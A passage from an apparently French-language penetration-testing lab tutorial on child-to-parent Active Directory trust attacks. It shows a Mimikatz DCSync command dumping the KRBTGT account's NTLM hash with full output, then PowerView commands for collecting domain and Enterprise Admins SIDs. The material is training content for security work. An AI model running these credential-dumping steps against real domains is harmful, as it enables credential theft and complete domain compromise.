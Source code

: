 Puisque nous avons compromis le domaine enfant, nous pouvons nous connecter en tant qu'administrateur de domaine ou similaire et effectuer l'attaque DCSync pour obtenir le hachage NT du compte KRBTGT.

#### Obtention du hachage NT du compte KRBTGT à l'aide de Mimikatz

  Attaquer les approbations de domaine - Enfant -> Affiliations parentales - à partir de Windows

```
PS C:\htb>  mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
[DC] 'LOGISTICS.INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC02.LOGISTICS.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'LOGISTICS\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/1/2021 11:21:33 AM
Object Security ID   : S-1-5-21-2806153819-209893948-922872689-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 9d765b482771505cbe97411065964d5f
    ntlm- 0: 9d765b482771505cbe97411065964d5f
    lm  - 0: 69df324191d4a80f0ed100c10f20561e

```

Nous pouvons utiliser la `Get-DomainSID`fonction PowerView pour obtenir le SID du domaine enfant, mais cela est également visible dans la sortie Mimikatz ci-dessus.

#### Utilisation de Get-DomainSID

  Attaquer les approbations de domaine - Enfant -> Affiliations parentales - à partir de Windows

```
PS C:\htb> Get-DomainSID

S-1-5-21-2806153819-209893948-922872689

```

Ensuite, nous pouvons utiliser `Get-DomainGroup`PowerView pour obtenir le SID du groupe Enterprise Admins dans le domaine parent. Nous pourrions également le faire avec la cmdlet [Get-ADGroup](https://docs.microsoft.com/en-us/powershell/module/activedirectory/get-adgroup?view=windowsserver2022-ps) avec une commande telle que `Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"`.
